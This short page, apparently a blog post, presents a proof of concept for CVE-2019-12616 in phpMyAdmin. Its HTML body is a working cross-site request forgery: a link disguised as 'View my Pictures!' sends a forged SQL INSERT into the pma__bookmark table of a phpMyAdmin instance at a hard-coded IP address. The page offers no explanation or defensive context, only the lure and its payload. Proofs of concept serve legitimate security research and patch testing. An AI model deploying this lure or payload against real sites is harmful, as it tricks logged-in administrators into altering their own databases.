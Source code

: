 ```yaml
---
title:  "CVE-2019-12616-PoC"
permalink: /CVE-2019-12616-PoC/
header:
  image: "/assets/images/100dl/day35/header.jpg"
---
```


<!doctype html>

<html lang ="en">
  <head>
    <meta charset="utf-8">
    <title>SynergiePoC</title>
    <meta name="description" content="PoC">
    <meta name="author" content="SitePoint">
    
    <link rel="stylesheet" href="css/styles.css?v=1.0">

  </head>
  <body>
    <script src="js/scripts.js"></script>
    <a href="http://161.35.127.39/phpmyadmin/tbl_sql.php?sql_query=INSERT+INTO+`pma__bookmark`+(`id`%2C+`dbase`%2C+`user`%2C+`label`%2C+`query`)+VALUES+(DAYOFWEEK('')%2C+''%2C+''%2C+''%2C+'')&show_query=1&db=phpmyadmin&table=pma__bookmark">View my Pictures!</a>
  </body>
  </html>